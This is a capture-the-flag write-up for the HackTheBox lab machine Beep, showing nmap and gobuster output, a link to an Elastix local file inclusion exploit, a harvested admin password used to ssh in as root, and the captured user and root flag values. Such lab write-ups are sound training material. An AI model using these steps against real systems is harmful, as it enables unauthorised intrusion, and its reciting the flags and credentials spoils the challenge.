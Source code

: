 ```yaml
---
layout: post
title: HackTheBox Beep (10.10.10.7) Writeup
description: >
  Hackthebox Beep Writeup
image: /assets/img/beep.png
noindex: false
---
```


# Beep (10.10.10.7) Writeup

**NMAP:**
```
root@37f72653a832:/# nmap -sC -sV -T4 -p- 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 00:58 UTC
Stats: 0:03:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 01:02 (0:00:00 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.024s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) APOP STLS PIPELINING USER RESP-CODES UIDL AUTH-RESP-CODE EXPIRE(NEVER) LOGIN-DELAY(0) TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed CHILDREN RIGHTS=kxte UNSELECT QUOTA OK RENAME X-NETSCAPE ACL LISTEXT BINARY IMAP4rev1 IDLE ATOMIC CONDSTORE CATENATE THREAD=REFERENCES IMAP4 ID URLAUTHA0001
LITERAL+ STARTTLS THREAD=ORDEREDSUBJECT SORT=MODSEQ SORT MAILBOX-REFERRALS MULTIAPPEND NAMESPACE UIDPLUS NO ANNOTATEMORE LIST-SUBSCRIBED
443/tcp   open  ssl/https?
|_ssl-date: 2020-05-15T01:03:54+00:00; +1m09s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus
imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m08s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 392.16 seconds
```
**PORT 443:**

Gobuster:
```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
```
Homepage:
![b4e3e46f315a80fd3f194e529c588351.png](../../resources/4c5063c1c39b4e4faafd6472bb29dec2.png)

Checking for exploits related to elastix there are a few but I will use [this LFI epxloit](https://www.exploit-db.com/exploits/37637)

That reveals a configuration file with some credentials in it

![cd291de520f7c4075d47776ce4998ae1.png](../../resources/b3b68c9b6f4f453fbf1485f41f653ccf.png)

Using the credentials `admin;jEhdIekWmdjE` I can ssh in as the root user.
```
root@37f72653a832:/# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password:
Last login: Fri May 15 04:33:29 2020 from 10.10.14.37

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#
```
From here I can read the `user.txt` and `root.txt` flags
```
[root@beep ~]# cat /home/fanis/user.txt
aeff3ddf0c765c2677b94715cffa73ac
[root@beep ~]# cat root.txt
d88e016123842106982acce0aaf453f0
```
